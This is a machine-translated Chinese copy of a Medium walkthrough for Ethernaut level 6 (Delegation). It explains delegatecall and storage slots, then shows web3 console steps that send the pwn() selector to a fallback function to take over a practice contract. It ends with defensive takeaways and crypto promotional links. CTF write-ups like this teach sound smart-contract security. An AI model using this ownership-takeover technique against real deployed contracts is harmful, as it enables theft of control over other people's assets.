


# 以太 6 级授权[铸造-安全帽]

> 原文：<https://medium.com/coinmonks/ethernaut-level-6-delegation-foundry-hardhat-917faaff3570?source=collection_archive---------23----------------------->



> *[***Ethernaut-Solutions***](https://github.com/Chirag21/Ethernaut-solutions)*资源库包含了使用 Foundry 和 Hardhat 的解决方案。**

*这个水平说明了如何滥用`[delegatecall](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-and-libraries)`。*

> *从顶级交易者那里复制交易机器人。免费试一试。*

# *目标*

*   *这个级别要求我们声明对合同的所有权。*

*`delegatecall`*

*`delegatecall`是 Solidity 中一个特殊的低级调用，用于对另一个合同进行外部调用。除了目标地址处的代码在调用契约的上下文(即，在该地址)中执行，并且`msg.sender`和`msg.value`不变之外，它与消息调用相同。*

*这意味着契约可以在运行时从不同的地址动态加载代码。存储、当前地址、余额仍参考调用合同；只有代码是从被叫地址获取的。delegatecall 的优点是您可以保留当前调用协定的上下文。*

> *以太坊将数据存储在存储“[槽](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html)”中，这是 32 字节大小的槽。每次将变量保存到存储器时，它会自动占用序列中当前槽或下一个槽的剩余空间*。**

*在下面的契约中，契约`A`对契约`B`的`setTo5()`函数进行委托调用。尽管该函数存在于契约`B`中，但是变量`foo`的值在契约`A`中被改变。合同`B`的代码通过合同`A`的存储、`msg.sender`和`msg.value`执行。*

**

*这意味着来自一个契约的代码可以用来改变另一个契约的存储。我们将在这一关利用这种行为。*

> *如果通过低级 delegatecall 访问状态变量，则两个协定的存储布局必须对齐，以便被调用的协定能够通过名称正确地访问调用协定的存储变量。当然，如果存储指针作为函数参数传递，就不是这种情况了，就像高级库的情况一样。*

# *分析*

*   *有两种合同:委托和授权。委托合同制作`delegatecall`委托合同。*
*   *委托契约有一个公共函数`pwn()`，它将`owner`设置为`msg.sender`，即调用该函数的人。*

```
*contract Delegate {
    address public owner;   // Slot 0
    function pwn() public {
        owner = msg.sender; // Saves msg.sender to slot 0
    }
}*
```

*   *请注意，在委托契约中，槽 0 处也有一个所有者变量*

```
*contract Delegation {
  address public owner;    // Slot 0
  Delegate delegate;       // Slot 1
  ...
}*
```

*   *委托合同有一个`fallback()`函数，它对委托合同进行委托调用。*

```
*fallback() external {
  (bool result,) = address(delegate).delegatecall(msg.data);
}*
```

*从“1 级回退”中记住，当没有匹配的`[function selector](https://solidity-by-example.org/function-selector/)`时，调用`fallback()`函数。我们可以通过在事务中发送`data`来调用`public`和`external`函数。这个`data`就是编码`[function selector](https://solidity-by-example.org/function-selector/)`和`function arguments`。*

*   *为了利用契约，我们需要触发委托契约的`fallback()`函数，将`msg.data`作为`pwn()`函数的`function selector`传递。这将通过对委托合同进行委托调用来触发`pwn()`函数。注意两个合同库`owner`的`Slot 0`。由于是`delegatecall`，调用合同即委托合同的存储被修改，使`msg.sender`成为委托合同的新`owner`。*

# *剥削*

*   *首先，获取`pwn()`功能的功能选择器。pwn()的选择器是`0xdd365b8b`。*

```
*const selector = web3.eth.abi.encodeFunctionSignature('pwn()')*
```

*   *检查电流`owner`。*

```
*await contract.owner()*
```

*   *调用`Delegation.sol`的回退功能*

```
*await contract.sendTransaction({
    from: player,
    data: selector
})*
```

*这会将您的地址设置为新的所有者。*

*   *查查车主*

```
*await contract.owner()*
```

*这将返回您的地址。这将返回您的地址。通过将事务发送给`Delegation`契约，使用`delegatecall`在`Delegation`契约的上下文中调用`Delegate`契约的`pwn()`函数，并修改存储。*

*提交实例。*

*关卡通过！！！😄*

# *关键要点*

*   *确保调用协定的存储槽与被调用协定的存储槽对齐，以避免意外分配。*
*   *使用`delegatecall`前，执行验证和条件检查。*
*   *当不需要改变合约存储时使用`staticcall`(调用`view`和`pure`函数)。*
*   *不要`delegatecall`给不可信的代码。*

> **[***Ethernaut-Solutions***](https://github.com/Chirag21/Ethernaut-solutions)*资源库包含使用 Foundry 和 Hardhat 的解决方案。***
> 
> ***解决方案采用铸造:-***
> 
> **[*测试*](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/test/foundry/6_Delegation.t.sol)*[漏洞利用脚本](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/script/6_DelegationScript.sol)***
> 
> ****使用安全帽的解决方案:-****
> 
> **[*Tes* t](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/test/hardhat/6_delegation.test.ts) ， [*漏洞利用脚本*](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/scripts/6_delegation_exploit.ts)**

**[](https://www.buymeacoffee.com/0xcsp)**

# **更多级别**

**[](/coinmonks/ethernaut-level-7-force-foundry-hardhat-581e92687422) [## 以太 7 级力量[铸造-安全帽]

### Ethernaut-Solutions 存储库包含使用 Foundry 和 Hardhat 的解决方案。

medium.com](/coinmonks/ethernaut-level-7-force-foundry-hardhat-581e92687422) [](/coinmonks/ethernaut-level-5-token-foundry-hardhat-d9d52e5ce39a) [## 以太 5 级令牌[铸造厂-安全帽]

### Ethernaut-Solutions 存储库包含使用 Foundry 和 Hardhat 的解决方案。

medium.com](/coinmonks/ethernaut-level-5-token-foundry-hardhat-d9d52e5ce39a) 

> 加入 Coinmonks [电报频道](https://t.me/coincodecap)和 [Youtube 频道](https://www.youtube.com/c/coinmonks/videos)了解加密交易和投资

# 另外，阅读

*   [OKEx vs KuCoin](https://coincodecap.com/okex-kucoin) | [摄氏替代度](https://coincodecap.com/celsius-alternatives) | [如何购买 VeChain](https://coincodecap.com/buy-vechain)
*   [ProfitFarmers 回顾](https://coincodecap.com/profitfarmers-review) | [如何使用 Cornix 交易机器人](https://coincodecap.com/cornix-trading-bot)
*   [如何匿名购买比特币](https://coincodecap.com/buy-bitcoin-anonymously) | [比特币现金钱包](https://coincodecap.com/bitcoin-cash-wallets)
*   [瓦济里克斯 NFT 评论](https://coincodecap.com/wazirx-nft-review)|[Bitsgap vs Pionex](https://coincodecap.com/bitsgap-vs-pionex)|[Tangem 评论](https://coincodecap.com/tangem-wallet-review)
*   如何使用 Solidity 在以太坊上创建 DApp？**